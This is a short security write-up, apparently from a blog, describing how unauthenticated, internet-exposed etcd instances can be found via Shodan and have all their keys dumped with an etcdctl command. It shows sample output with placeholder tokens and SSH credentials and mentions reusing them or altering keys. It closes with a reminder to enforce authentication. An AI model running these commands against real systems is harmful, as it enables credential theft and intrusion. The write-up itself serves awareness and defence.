 # PoC: Hacking Systems via Exposed ETCD Instances

[*Etcd*](https://github.com/etcd-io/etcd) is an open-source distributed key-value store that provides a reliable way to store data across a cluster of machines.  
It's often used as a foundational component in distributed systems, serving as a distributed coordination service for managing configurations, maintaining state, and facilitating communication between different parts of a distributed system.  

Originally developed by CoreOS, etcd is written in Go and uses the **Raft consensus algorithm** to ensure consistency and fault-tolerance.  
It's designed to be highly available, durable, and scalable, making it suitable for use in production environments where reliability and consistency are crucial.  

Some common use cases for etcd include service discovery, leader election, configuration management, and coordination between distributed components.  
It's widely used in container orchestration systems like **Kubernetes**, where it helps manage cluster state and configuration data for containers and their applications.  

It is not uncommon to encounter instances of etcd publicly exposed and lacking authentication measures.  
In such cases, malevolent actors may exploit the API using tools like curl or, preferably, [*etcdctl*](https://github.com/etcd-io/etcd/blob/main/etcdctl/README.md), to perform malicious operations. Here is an example of a real-world scenario.  

## The Scenario
A malicious actor is probing exposed services on [*Shodan*](https://www.shodan.io/) with the following simple query: `etcd`.  
After several attempts, they discover an instance of etcd without authentication and attempt to list the *keys/values* using the following command:  
```console
export ETCDCTL_ENDPOINTS="http://$EXPOSED_IP:2379" \
&& export ETCDCTL_API=3 \
&& etcdctl get --prefix ""
```  

Possible Output:  

```console
/apis/url/
https://my.api.com/v1/users/
apis/token/
wBtkA97eCyqPfQWtGBXf35T5AYbAuKGrQ1Ifq6wgzwjhZXtr87yQDgokSjfiVCVI
/ssh/user/
system
/ssh/pass/
P4SsW0rd_+^"!
```  

> Note  
> the attacker can also list all the etcd peers with this command: `etcdctl member list`  


It's worth noting that, at this juncture, an attacker could potentially inflict damage on the system by deleting and/or modifying the values of the etcd keys.  
In this specific scenario, if the server's IP also exposes SSH, the attacker might also attempt to gain access using the values of the keys */ssh/user/* and */ssh/pass/*.  
Now, please bear in mind that this is merely a hypothetical example.  
An attacker would need to be exceptionally fortunate to stumble upon such data.  
Nevertheless, albeit rare, such occurrences can transpire, and we can assure you that they have occurred in the past.  


This scenario serves as a [*yet another reminder*](../04-04-24/kubernetes.md) to consistently implement robust authentication mechanisms for our systems and to refrain from exposing them to the entire world unless absolutely necessary (which, in 99.99% of cases, it is not).  


<br>  


- [Back to main page](../../../index.md)  